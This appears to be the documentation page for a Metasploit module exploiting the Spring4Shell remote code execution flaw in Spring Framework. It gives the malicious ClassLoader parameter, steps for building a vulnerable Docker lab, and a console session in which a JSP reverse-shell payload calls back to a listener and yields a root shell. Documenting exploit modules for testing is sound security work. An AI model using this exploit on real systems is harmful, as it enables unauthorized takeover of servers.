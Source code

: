 ## Vulnerable Application

Spring Framework versions 5.3.0 to 5.3.17, 5.2.0 to 5.2.19, and older versions when running on JDK 9 or above 
and specifically packaged as a traditional WAR and deployed in a standalone Tomcat instance are vulnerable 
to remote code execution due to an unsafe data binding used to populate an object from request parameters 
to set a Tomcat specific ClassLoader. By crafting a request to the application and referencing the 
org.apache.catalina.valves.AccessLogValve class through the classLoader with parameters such as the following:
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp, an unauthenticated attacker can 
gain remote code execution.

## Verification Steps

1. Build the application
   1. `git clone https://github.com/vleminator/Spring4Shell-POC`
   2. `docker build . -t spring4shell`
2. Run the application
   1. `docker run -p 8085:8080 spring4shell`
3. Start msfconsole
4. Run: `use exploit/multi/http/spring4shell`
5. Set the `RHOSTS`, `TARGET`, `PAYLOAD` and payload associated datastore options
6. Run the exploit

## Options

## Scenarios

### Spring Framework v5.3.15 on Linux (debian docker image)

```
msf6 exploit(multi/http/spring4shell) > show options

Module options (exploit/multi/http/spring4shell):

   Name            Current Setting       Required  Description
   ----            ---------------       --------  -----------
   FILEDROPPERDIR  /tmp/                 no        The directory used for filedropper (only applicable to non-Java target)
   Proxies                               no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          127.0.0.1             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT           8085                  yes       The target port (TCP)
   SSL             false                 no        Negotiate SSL/TLS for outgoing connections
   TARGETURI       /helloworld/greeting  yes       The path to the application action
   VHOST                                 no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.174    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Java


msf6 exploit(multi/http/spring4shell) > exploit

[*] Started reverse TCP handler on 192.168.0.174:4444
[*] 127.0.0.1:8085 - Generating JSP...
[*] 127.0.0.1:8085 - Modifying Class Loader...
[*] 127.0.0.1:8085 - Waiting for the server to flush the logfile
[+] 127.0.0.1:8085 - Log file flushed at http://127.0.0.1:8085/lKNWl49.jsp
[!] Tried to delete lKNWl49.jsp, unknown result
[*] Command shell session 2 opened (192.168.0.174:4444 -> 192.168.0.174:56430 ) at 2022-04-07 14:45:06 +0200

whoami
root
```